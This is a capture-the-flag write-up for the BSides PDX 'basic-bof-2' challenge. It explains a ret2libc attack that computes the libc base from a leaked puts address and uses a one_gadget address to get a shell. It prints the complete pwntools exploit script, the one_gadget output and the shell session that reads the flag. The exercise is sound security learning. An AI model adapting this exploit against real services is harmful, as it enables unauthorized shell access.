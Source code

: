 #basic-bof-2 

This is my first experience with a ret2libc attack.  Thankfully I was able to get some help from my peers on the basics as well as some pretty good tools to use :)

Running the binary for the first time, looks like we get an address leak, but since PIE is enabled, this number is going to be different everytime.

Luckily, since we know the address during run time before we have to supply any input, we can just parse that address out and use it to find the base of where libc is located.

So far, we have:
```python
from pwn import *
import os, sys
#io = process('./basic-bof')
io = remote('basic-bof-2.bsidespdxctf.party', 9999)

context(arch = "amd64")
libc = ELF("libc-2.27.so")
elf = ELF("./basic-bof")

leak = int(io.recvline().decode().split("but there is ")[1].split(".")[0], 16)
base = leak - libc.symbols["puts"]
```

Now that we know where the base of libc is, we just need to overwrite RIP with the location we want to jump to.  I used one_gadget to get a list of possible places that would give us a shell: `one_gadget libc-2.27.so`

```
0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a45c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Sweet, we have everything we need to build the full payload.  Using a trick I learned from a teammate, I can just repeat the location I want to jump to many times to fill that buffer.  

Here is the final exploit:

```python
from pwn import *
import os, sys
#io = process('./basic-bof')
io = remote('basic-bof-2.bsidespdxctf.party', 9999)

context(arch = "amd64")
libc = ELF("libc-2.27.so")
elf = ELF("./basic-bof")

leak = int(io.recvline().decode().split("but there is ")[1].split(".")[0], 16)
base = leak - libc.symbols["puts"]
one_gadget = 0x4f365

payload = p64(base + one_gadget) * 8
log.info(payload)

io.sendline(payload)
io.interactive()
```

And running it we get:
```
[*] Switching to interactive mode

Get a shell: $ cat flag.txt
BSidesPDX{r3t_t0-0ne_g@dg3t}
```

This challenge was a great learning experience for me, and I learned a lot about this type of exploit!
